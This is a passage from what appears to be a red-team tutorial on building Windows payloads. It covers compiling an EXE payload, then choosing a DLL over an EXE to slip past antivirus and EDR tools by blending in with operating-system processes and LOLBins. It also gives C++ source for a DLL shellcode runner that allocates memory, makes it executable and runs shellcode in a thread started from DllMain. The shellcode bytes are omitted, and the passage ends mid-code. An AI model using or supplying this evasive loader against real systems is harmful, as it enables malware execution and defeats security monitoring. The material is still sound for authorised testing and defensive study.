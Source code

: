 Once you compile the program and there are no errors, there should be an EXE in the output directory which will be our payload. Double-click the EXE to confirm the payload works and `calc.exe` gets launched! If there are compiling errors, it is likely due to your environment setup missing installations required for C++.

## EXE vs DLL Payload

Executables (`.exe` files) are typically more likely to get scrutinzed by AV/EDR solutions, but not always. Instead of using EXE's we can compile a malicious Dynamic-Link Library (`.dll`) and use a different method to somehow execute it which will be more likely to blend in with operating system behaviour. Living off the land Binaries (aka [LOLBins](https://lolbas-project.github.io/)) can be used to launch our compiled DLL depending using different execution methods.<br />
*Note that using DLLs are often a more realistic way for us to launch our code by blending in with legitimate operating system processes and network activity.*

### C++ DLL Payload 
To create a DLL in C++ with Visual Studio, go to **New Project -> Language = C++ -> Select "Dynamic Link Library (DLL)"**.<br />
Below is an example of our initial C++ payload which we've modified to a DLL:

```cpp
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
  <SHELLCODE BYTES - Removed for brevity>
};

unsigned int shellcode_len = sizeof(shellcode);

DWORD WINAPI ShellcodeRunner(LPVOID lpParameter)
{
    void* exec_buffer; // memory buffer for shellcode
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // 1. Allocate buffer for shellcode
    exec_buffer = VirtualAlloc(0, shellcode_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 2. Copy shellcode to buffer
    RtlMoveMemory(exec_buffer, shellcode, shellcode_len);

    // 3. Make the buffer executable
    rv = VirtualProtect(exec_buffer, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

    if (rv != 0) {
        // 4. Run the payload
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_buffer, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}

// Program entry point
BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved )
{
    HANDLE th;
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        // Create a thread to call our shellcode runner function
        th = CreateThread(NULL, 0, ShellcodeRunner, NULL, 0, NULL);
        CloseHandle(th);
```